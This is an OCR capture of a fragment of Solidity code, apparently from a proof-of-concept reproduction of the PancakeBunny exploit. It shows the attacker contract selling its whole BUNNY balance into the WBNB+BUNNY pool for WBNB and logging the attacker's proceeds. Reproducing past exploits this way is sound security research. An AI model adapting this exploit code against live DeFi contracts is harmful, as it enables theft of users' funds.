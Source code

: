 │         emit log_string("Dumping all BUNNY for WBNB on WBNB+BUNNY pool...");                                                                                                                                                                         │
│         {                                                                                                                                                                                                                                            │
│             uint256 bunnyBalance = IERC20(BUNNY).balanceOf(address(this)) - 1;                                                                                                                                                                       │
│             (uint256 reserve0, uint256 reserve1, ) = WBNBBUNNY.getReserves();                                                                                                                                                                        │
│             uint256 amountIn = bunnyBalance;                                                                                                                                                                                                         │
│             uint256 amountOut = router.getAmountOut(                                                                                                                                                                                                 │
│                 bunnyBalance,                                                                                                                                                                                                                        │
│                 reserve1,                                                                                                                                                                                                                            │
│                 reserve0                                                                                                                                                                                                                             │
│             );                                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│             IERC20(BUNNY).transfer(address(WBNBBUNNY), amountIn);                                                                                                                                                                                    │
│             WBNBBUNNY.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│             emit log_named_decimal_uint(                                                                                                                                                                                                             │
│                 "After dumping all BUNNY, WBNB balance of attacker:",                                                                                                                                                                                │
│                 IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                               │
│                 IERC20(WBNB).decimals()                                                                                                                                                                                                              │
│             );                                                                                                                                                                                                                                       │
│         }                                                                                                                                                                                                                                            │
│     }                                                                                                                                                                                                                                                │